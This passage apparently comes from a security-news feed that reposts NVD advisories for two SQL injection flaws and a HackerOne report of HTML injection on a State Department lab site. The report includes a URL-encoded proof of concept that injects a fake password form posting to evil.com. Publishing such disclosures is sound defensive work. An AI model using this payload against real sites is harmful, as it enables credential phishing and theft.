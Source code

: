 A vulnerability was found in OCLC-Research OAICat 1.5.61. It has been rated as critical. This issue affects some unknown processing. The manipulation leads to sql injection. The attack may be initiated remotely. Upgrading to version 1.5.62 is able to address this issue. The name of the patch is 6cc65501869fa663bcd24a70b63f41f5cfe6b3e1. It is recommended to upgrade the affected component. The identifier VDB-221489 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2012-10008

<blockquote>
‼ CVE-2012-10008 ‼

A vulnerability, which was classified as critical, has been found in uakfdotb oneapp. This issue affects some unknown processing. The manipulation leads to sql injection. The attack may be initiated remotely. This product does not use versioning. This is why information about affected and unaffected releases are unavailable. The name of the patch is 5413ac804f1b09f9decc46a6c37b08352c49669c. It is recommended to apply a patch to fix this issue. The associated identifier of this vulnerability is VDB-221483.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-20`

<blockquote>
U.S. Department of State: xss and html injection on ( https://labs.history.state.gov)
https://vulners.com/hackerone/H1:1810656?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1810656?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1810656?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Summary: there's possible xss and html injection on your  website https://labs.history.state.gov    through /card.xq?id&#61; parameter because your web did not sanatize user input  and you have vulnerable  JavaScript libraries jQuery 1.11.3 Steps To Reproduce: &#35;&#35; html injection P O C code https://labs.history.state.gov/card.xq?id&#61;%3C/title%3E%3Cbody%20style&#61;%22background:%20green;%22%3E%3Cdiv%20class&#61;%22container%22%3E%3Cform%20action&#61;%22https://www.evil.com%22%20method&#61;%22post%22%20class&#61;%22form%22%20style&#61;%22display:%20block;%22%3E%3Clabel%20for&#61;%22pnumber%22%3Ephone%20number%20%3C/label%3E%3Cbr%3E%3Cinput%20type&#61;%22tel%22%20name&#61;%22pnumber%22%20id&#61;%22pnumber%22%20value&#61;%22%22%20placeholder&#61;%22phone%20number%22%20maxlength&#61;%2211%22inputmode&#61;%22tel%22%20size&#61;%2240px%22%3E%3Cbr%3E%3Clabel%20for&#61;%22pword%22%3Epassword%3C/label%3E%3Cbr%3E%3Cinput%20type&#61;%22password%22%20name&#61;%22pword%22%20id&#61;%22pword%22%20value&#61;%22%22%20placeholder&#61;%22password%22%20maxlength&#61;%22200%22%20size&#61;%2240px%22height&#61;%22100px%22%3E%3Cbr%3E…
</blockquote>
</td></tr></table>

---